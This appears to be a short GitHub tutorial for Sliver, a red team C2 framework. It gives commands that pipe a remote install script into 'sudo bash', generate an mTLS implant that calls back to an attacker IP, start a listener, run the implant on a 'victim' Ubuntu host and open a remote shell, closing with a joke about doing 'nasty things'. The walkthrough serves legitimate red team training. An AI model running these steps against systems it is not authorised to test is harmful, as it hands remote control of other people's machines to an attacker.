



# SLIVER GETTING STARTED TUTORIAL

## Abstract
[*Sliver*](https://github.com/BishopFox/sliver) is an open-source, cross-platform adversary emulation and red team framework:  
It's designed to assist security professionals in conducting comprehensive security assessments by emulating potential adversary behaviors.  
Sliver supports multiple command and control (C2) communication protocols, including Mutual TLS (mTLS), WireGuard, HTTP(S), and DNS, providing flexibility in various testing scenarios.  

This folder contains a basic tutorial to get you started with this tool.  

## Instructions

Donwload and install Sliver with a single command (on linux distros):  
```sh
curl https://sliver.sh/install | sudo bash
```  

Verify that the sliver demon is running:  
```sh
systemctl status sliver
```  

If you’re running Sliver on Linux, you'll need to install MinGW on the Sliver server, this is needed to enable shellcode/staged/DLL payloads:  
```sh
sudo apt install mingw-w64
```  

Now you are ready to connect to the Sliver shell:  
```sh
sliver
```  

You can use the `help` option to see a list of available commands:  
  

Now you are ready to generate an `implant`.   
Implants are custom-generated payloads (agents) deployed on target machines to establish communication with the Sliver C2 server.  
They support various communication protocols like mTLS, HTTP(S), DNS, and WireGuard.  

get your attacker machine IP or FQDN and run the following command (this will save the implant in the current folder):  

```sh
generate --mtls 192.168.93.128:443 --os linux --arch amd64 --save payload_linux
```  

Now start a new mtls listener on the attacker machine (Sliver server):  
```sh
mtls --lhost 192.168.93.128 --lport 443
```  

Our victim machine will be an Ubuntu one, copy the implant and paste it on the victim machine.  
Make the implant executable and launch it:  
```sh
sudo chmod +x /tmp/payload_linux &&
./payload_linux
```  

Now list active sessions with `sessions` and connect to ubuntu with `use <SESSION-ID>`:  

  

Now you can run specific Sliver commands or open an interactive shell by typing `shell`...and do nasty things on the victim machine 😈 

  


